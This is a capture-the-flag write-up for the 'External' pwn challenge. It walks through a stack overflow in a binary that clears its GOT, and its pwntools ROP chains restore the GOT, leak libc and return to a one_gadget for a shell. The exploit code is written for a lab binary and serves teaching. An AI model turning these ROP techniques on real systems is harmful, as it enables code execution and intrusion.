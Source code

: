 ## External 
#### Description
No description.

#### Author
M_alpha

#### Points and solves
467 points and 69 solves.

We are given a binary, that reads out input, clears the GOT table and somehow we need to get a shell.

```c
undefined8 main(void)
{
  undefined buff [80];
  puts("ROP me ;)");
  printf("> ");
  read(0,buff,0xf0);
  clear_got();
  return 0;
}
```

The function ```clear_got``` does exactly what we expect it to do, it uses ```memeset``` to set the entire GOT to 0.

In addition, we have a very usefull gadget in one of the setup functions:
```asm
00401283 0f 05      SYSCALL
00401285 c3         RET
```

### The vulnerability
It is obvious we can overflow ```buff``` and like in the challenge ```echo```,
we keep out eyes peeled for a way to abuse the syscall gadaget.

However, is it not a trivial rop chain, because we can't immediatly return to ```plt``` functions.
So, after a quick research about dynamic linking, I figured out the following, 
the GOT entry for any function, say ```printf```, by default is pointing to ```plt.printf + 0x6```
At that address lays the dynamic linking routine for ```printf```.
If we can set all the zeroed GOT entries to some resolving function in the ```plt``` section, we can reload the GOT entries.


### 1. Setting up conditions for restoring the GOT:
```python
payload = p64(pop_rdi) + p64(0) + p64(pop_rsi_r15) + p64(got_start) + p64(0) + p64(syscall_ret) +\
p64(elf.sym.main)
payload = 0x58*b"A"+payload
p.sendline(payload)
```
We have a rop chain that loads ```rdi = 0, rsi = &GOT``` and returns to a syscall, and to main afterwards.
Since main returns 0, by the time we are executing the rop chain ```rax = 0``` which is the syscall number for ```read```.
At the time we syscall, we will actually read back into the GOT table.

### 2. Rewriting GOT table:
The GOT entries in the binary are in the following order: [puts, setbuf, printf, memset, alarm, read, signal]
```python
payload = p64(elf.sym.plt["puts"]+6) + p64(elf.sym.plt["setbuf"]+6) + p64(elf.sym.plt["puts"]+6) +\
	p64(elf.sym.plt["puts"]+6) + p64(elf.sym.plt["alarm"]+6) + p64(elf.sym.plt["read"]+6) +\
	p64(elf.sym.plt["signal"]+6)
p.sendline(payload)
```
So, we load the appropriate ```plt``` values into the GOT, but we can't just load them the same way, 
because memset will zero them again, so we just patch the GOT entry for memset with ```plt.puts```.
Now, by the time we return to ```main``` the function will resolve their addresses based on the ```plt``` values that are in the GOT tablle.


### 3. Leak libc:
We now have a "stable" binary that won't erase the GOT on us, and we can just leak libc with a simple rop chain:
```python
payload = p64(pop_rdi) + p64(elf.sym.got["puts"]) + p64(elf.sym.plt["puts"]) + p64(elf.sym.main)
```

### 4. Get shell:
We have a one_gadget at ```0x448a3``` offset, we can just return to that with another rop chain.
```python
p.sendline(0x58*b"C" + p64(libc.address + one_shot_offset) + b"\x00"*0x100) 
```




